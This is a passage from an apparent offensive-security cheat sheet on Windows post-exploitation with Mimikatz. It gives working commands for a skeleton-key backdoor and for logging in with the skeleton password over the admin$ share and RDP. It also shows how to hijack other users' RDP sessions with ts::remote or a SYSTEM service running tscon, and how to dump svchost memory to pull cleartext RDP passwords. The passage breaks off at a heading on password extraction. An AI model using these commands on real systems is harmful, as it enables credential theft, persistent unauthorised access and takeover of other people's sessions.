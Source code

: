 ```powershell
privilege::debug
misc::skeleton
# map the share
net use p: \\WIN-PTELU2U07KG\admin$ /user:john mimikatz
# login as someone
rdesktop 10.0.0.2:3389 -u test -p mimikatz -d pentestlab
```

## RDP Session Takeover

Use `ts::multirdp` to patch the RDP service to allow more than two users.

* Enable privileges

  ```powershell
  privilege::debug 
  token::elevate 
  ```

* List RDP sessions

  ```powershell
  ts::sessions
  ```

* Hijack session

  ```powershell
  ts::remote /id:2 
  ```

Run `tscon.exe` as the SYSTEM user, you can connect to any session without a password.

```powershell
# get the Session ID you want to hijack
query user
create sesshijack binpath= "cmd.exe /k tscon 1 /dest:rdp-tcp#55"
net start sesshijack
```

## RDP Passwords

Verify if the service is running:

```ps1
sc queryex termservice
tasklist /M:rdpcorets.dll
netstat -nob | Select-String TermService -Context 1
```

* Extract passwords manually

  ```ps1
  procdump64.exe -ma 988 -accepteula C:\svchost.dmp
  strings -el svchost* | grep Password123 -C3
  ```

* Extract passwords using Mimikatz
